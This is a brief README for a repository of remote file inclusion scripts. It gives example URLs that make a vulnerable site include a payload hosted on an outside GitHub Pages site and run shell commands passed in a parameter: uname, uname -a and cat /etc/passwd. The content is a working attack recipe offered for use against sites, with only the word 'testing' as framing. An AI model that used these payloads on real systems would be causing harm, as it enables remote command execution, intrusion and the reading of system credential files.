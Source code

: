 # File-Inclusion-Codes

This repository contains source codes for testing file inclusion vulnerability in sites.

include_system_test.txt
If you see something like include() in error then you can use this script
https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname
https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname -a
https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=cat /etc/passwd
